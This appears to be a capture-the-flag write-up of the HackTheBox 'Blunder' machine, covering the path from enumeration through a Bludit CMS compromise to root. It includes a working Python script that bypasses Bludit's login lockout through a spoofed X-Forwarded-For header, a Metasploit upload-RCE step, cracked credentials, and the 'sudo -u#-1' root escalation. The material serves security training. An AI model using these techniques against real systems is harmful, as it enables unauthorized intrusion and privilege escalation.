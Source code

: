 ```yaml
---
title: Writeup - HackTheBox - Blunder
published: true
---
```

![](Pictures/Blunder/logo.png)

This machine from HackTheBox is categorized as an “easy” Linux
machine.
The machine is hosting a website with Bludit CMS version 3.9.2.
The Bludit installation has security flaws that make’s it possible to get a remote shell for the user www-data. Bludit has a parallel installation on the server. From this installation I found a SHA1 hash for the account Hugo. Hugo is a user account on the server as well, and the password from the SHA1 hash is also the password for Hugo’s local account. There is a misconfigured setting for the user Hugo that makes it possible to escalate to root.

## [](#header-2)Enumeration

### [](#header-3)Nmap
I started with an nmap scan to get a list of running services on the machine.
```
Nmap -sC -sV -oA nmap 10.10.10.191
```

![](/Pictures/Blunder/nmap.png)

I noticed only two open ports on the system, port 21 and 80. The webserver is hosting a website.

### [](#header-3)Gobuster
Gobuster is a tool that can be used to enumerate a website by
guessing what content is placed on the webserver. I ran the the
following command to start gobuster with one of my built-in
wordlists in Kali Linux:

```
gobuster dir w usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.191/ -x php,html,txt
```

```
/about (Status: 200)
/0 (Status: 200)
/admin (Status: 301)
/install.php (Status: 200)
/robots.txt (Status: 200)
/todo.txt (Status: 200)
/usb (Status: 200)
/LICENSE (Status: 200)
```

##### [](#header-5)Todo.txt
The file todo.txt seems to be something that is unusual. The
content of the file is the following:
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images – PENDING
This information might be useful in a later stage.

##### [](#header-5)Robots.txt
The robots file is a file that gives instructions to search
engines such as Google and Bing etc. The instructions might be to exclude content from the website.
Robots.txt on this web server doesn't give any further useful information.

##### [](#header-5)/admin
Visiting http://10.10.10.191/admin in the web browser shows me that this site uses Bludit CMS, and also ask me to login.

## [](#header-2)Exploitation

### [](#header-3)Cewl
At this stage I dont have any credentials to use to login to the
CMS. From the text file todo.txt I got a name, fergus. This is not
enough, I still need some passwords to try login.
Cewl is a tool that indexes a web site with all text and writes it
to a file, one line per word.

```
Cewl -m 5 10.10.10.191 -w cewl.txt
```

This command gives me all text on the website, with minimum 5
chars and saves it to the file cewl.txt. With this information I
can use this to try to login. The cewl.txt has 188 lines so it
will take time to try everyone manually. The Bludit CMS also have
a function that locks out the IP-address, if more than 10 tries
fails.

### [](#header-3)Bludit Brute Force Migitation Bypass
Bludit has a configuration in the file security.class.php that
locks the user out after 10 tries. I found a solution to bypass
this configuration online from a Security Researcher, <a href="https://rastating.github.io/bludit-brute-force-mitigation-bypass/">rastating</a>.
Rastating writes about the problem and also provides a python-
script as a Proof Of Concept. By running a modified version of
this script with the assumption that the valid username is
“fergus”, I was able to find a matching password,
“RolandDeschain”, from the wordlist made by cewl earlier.
Now I was able to use the credentials to log on to the system.

#### [](#header-4)The modified script

```
#!/usr/bin/env python3
import re
import requests

host = 'http://192.168.194.146/bludit'
login_url = host + '/admin/login'
username = 'admin'
wordlist = []

# Generate 50 incorrect passwords
for i in range(50):
	wordlist.append('Password{i}'.format(i = i))

# Add the correct password to the end of the list
wordlist.append('adminadmin')

for password in wordlist:
	session = requests.Session()
	login_page = session.get(login_url)
	csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"',
login_page.text).group(1)

	print('[*] Trying: {p}'.format(p = password))

	headers = {
		'X-Forwarded-For': password,
		'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',

		'Referer': login_url
	}

	data = {
		'tokenCSRF': csrf_token,
		'username': username,
		'password': password,
		'save': ''
	}

	login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

	if 'location' in login_result.headers:
		if '/admin/dashboard' in login_result.headers['location']:
			print()
			print('SUCCESS: Password found!')
			print('Use {u}:{p} to login.'.format(u = username, p = password))
			print()
			break
```

### [](#header-3)Bludit_upload_images_exec - MetaSploit
There is a vulnerability in the image upload function what in
short terms means that an attacker can upload a malicious payload
file and get remote code execution.
There is a module added to MetaSploit that executes this attack.

![](Pictures/Blunder/metasploit.png)

With this exploit, using the credentials from before, I was able
to get a shell back for the user www-data.

### [](#header-3)SHA1 hash
From the folder /var/www/ I saw that there is another Bludit
installation on the server. Bludit-3.10.0a.

![](Pictures/Blunder/var-www.png)

Inside the folder /var/www/bludit-3.10.0a/bl-content/databases is
a file named users.php. The file contains information about the
user Hugo.

![](Pictures/Blunder/users.png)

The password shown in the picture is the SHA1 hash for the user
Hugo. The hash was cracked and the password is: Password120
I was now able to change user to Hugo.

![](Pictures/Blunder/user.png)

And here is the user.txt flag.

### [](#header-3)Privilege escalation
I did some enumeration to see if Hugo is able to perform commands
as root.

![](Pictures/Blunder/sudo-l.png)

With this knowledge I can use an technique to trick the system
that Im allowed to run bash as root.

```
sudo -u#-1 /bin/bash
```

This gives me a root shell and I was able to get the root.txt
flag.

![](Pictures/Blunder/root.png)
